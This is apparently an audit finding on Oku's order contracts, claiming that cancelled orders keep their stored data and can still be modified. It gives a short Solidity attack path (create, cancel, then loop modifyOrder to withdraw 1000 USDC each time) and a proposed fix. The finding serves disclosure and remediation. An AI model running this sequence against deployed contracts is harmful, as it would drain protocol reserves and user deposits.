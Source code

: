 Lively Pecan Griffin

High

# Orphaned Order State Manipulation: Fund Extraction via Incomplete Order Cleanup

### Summary

A severe state inconsistency vulnerability exists across Oku's order management contracts (`Bracket.sol`, `stopLimit.sol`, `oracleLess.sol`) where incomplete order cleanup enables unauthorized fund extraction through state manipulation of orphaned orders.

### Root Cause

```solidity
contract Bracket {
    mapping(uint96 => Order) public orders;        // Persistent storage
    uint96[] public pendingOrderIds;               // Temporary reference

    function _cancelOrder(Order memory order) internal returns (bool) {
        // Removes reference but leaves ghost data
        pendingOrderIds = ArrayMutation.removeFromArray(i, pendingOrderIds);
        // Processes refund while order data remains accessible
        order.tokenIn.safeTransfer(order.recipient, order.amountIn);
        return true;
    }
}
```

### Internal pre-conditions

1. Contract maintains separate order storage and reference arrays
2. No synchronization between storage cleanup and reference removal
3. Order modification remains accessible post-cancellation

### External pre-conditions

1. Initial token deposit capability
2. Access to order cancellation function
3. Ability to call order modification function

### Attack Path

```solidity
// Phase 1: Setup
uint256 initialDeposit = 5000e6; // 5000 USDC
uint96 orderId = bracket.createOrder({
    amountIn: initialDeposit,
    tokenIn: USDC,
    // ... other parameters
});

// Phase 2: Initiate State Desync
bracket.cancelOrder(orderId);
// Receives 5000 USDC, order data persists

// Phase 3: State Manipulation
for(uint i = 0; i < 5; i++) {
    bracket.modifyOrder(
        orderId,
        increasePosition: false,
        amountInDelta: 1000e6  // Extract 1000 USDC per iteration
    );
}
```


### Impact

- Recursive fund extraction through orphaned orders
- Protocol reserve depletion
- Compromised accounting integrity
- Systemic financial risk

### Mitigation

```solidity
contract Bracket {
    function _cancelOrder(Order memory order) internal returns (bool) {
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {
            if (pendingOrderIds[i] == order.orderId) {
                // Atomic state update
                Order memory orderSnapshot = orders[order.orderId];
                pendingOrderIds = ArrayMutation.removeFromArray(i, pendingOrderIds);
                delete orders[order.orderId];

                // Post-state update operations
                emit OrderStateChange(order.orderId, "CANCELLED");
                orderSnapshot.tokenIn.safeTransfer(
                    orderSnapshot.recipient, 
                    orderSnapshot.amountIn
                );
                return true;
            }
        }
        return false;
    }

    function modifyOrder(uint96 orderId, ...) external {
        Order memory order = orders[orderId];
        require(order.amountIn != 0, "Order inactive or cancelled");
        require(
            ArrayMutation.contains(pendingOrderIds, orderId),
            "Order not in active state"
        );
        // Proceed with modification...
    }
}
```